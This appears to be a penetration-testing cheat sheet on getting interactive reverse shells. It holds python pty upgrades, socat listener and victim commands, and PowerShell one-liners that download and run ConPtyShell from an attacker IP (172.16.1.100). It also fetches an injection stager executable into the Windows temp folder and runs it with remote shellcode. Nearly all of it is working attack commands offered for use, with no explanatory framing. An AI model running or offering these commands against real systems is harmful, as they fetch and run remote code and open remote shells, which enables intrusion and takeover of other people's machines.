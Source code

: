 
# Python
## For python3  
python3 -c 'import pty; pty.spawn("/bin/bash")'  
  
## For python2  
python -c 'import pty; pty.spawn("/bin/bash")'  
  
### for tab complete, etc.  
export TERM=xterm  
ctrl+z  
stty raw -echo; fg



# Socat

IP=  
LPORT=  
CPORT=  
  
## Listener:  
socat file:`tty`,raw,echo=0 tcp-listen:$LPORT  
​  
## Victim:  
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$IP:$CPORT


# ConPTYShell

https://github.com/antonioCoco/ConPtyShell/releases/download/1.5/ConPtyShell.zip  
  
## ON ATTACKER  
stty raw -echo; (stty size; cat) | nc -lvnp 50001  
  
  
## ON TARGET  
IEX(IWR http://172.16.1.100:80/ConPtyShell/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 172.16.1.100 50001  
  
## As additional process  
Start-Job -ScriptBlock { IEX(IWR http://172.16.1.100:50080/ConPtyShell/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 172.16.1.100 50001 }  
  
  
C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe  
C:\Windows\System32\WindowsPowerShell\v1.0\  
  
powershell iwr -uri http://172.16.1.100:50080/injection-stager/injection-stager.exe -Outfile c:/windows/temp/fun.exe  
  
cd C:/windows/temp  
  
.\fun.exe --direct http://172.16.1.100:50080/shellpotato.txt C:/windows/system32/calc.exe